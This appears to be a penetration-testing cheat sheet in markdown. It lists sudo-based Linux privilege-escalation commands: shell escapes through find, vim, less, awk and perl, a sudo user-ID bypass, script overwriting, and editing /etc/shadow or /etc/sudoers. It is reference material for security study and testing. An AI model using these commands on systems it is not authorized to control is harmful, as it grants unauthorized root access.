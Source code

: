 #### Abuse `sudo` to Run a Shell
- **Abuse `sudo` to Run a Shell:**
	```bash
	sudo bash
	sudo -i
	```

#### Exploiting Misconfigured Sudo
- **Use commands such as `vi`, `less`, or `nano` to edit critical system files like `/etc/shadow` or `/etc/sudoers`:**
	```bash
	sudo <command> <file>
	```

#### Insecure Binary Execution via `sudo`
- **Privilege Escalation via `sudo` with Insecure Binary Execution:**
	```bash
	sudo find / -exec /bin/sh \;
	sudo vim -c '!sh'
	sudo less /etc/hosts (press !sh)
	```

#### Exploiting Binary Overwriting via Sudo
- **Overwrite a binary or script with a writable path, replace the binary with a malicious one:**
	```bash
	echo "/bin/sh" > /tmp/vulnerable.sh
	```
- **Gain a root shell:**
	```bash
	sudo /tmp/vulnerable.sh
	```

#### Exploiting Special `sudo` Configurations
- **Exploit `sudo` with `!` in Command Arguments:**
	```bash
	sudo -u#-1 /bin/bash
	```
- **Exploit `sudo `to Run a File Editor with Root Privileges:**
	```bash
	sudo EDITOR=nano crontab -e
	```
- **Exploit `sudo` by Specifying an Arbitrary User:**
	```bash
	sudo -u user /bin/bash
	```

#### Abusing `sudo` with Limited Commands
- **Escalate Privileges via Restricted Commands:**
	```bash
	sudo awk 'BEGIN {system("/bin/sh")}'
	sudo find / -exec /bin/sh \;
	sudo perl -e 'exec "/bin/sh";'
	```

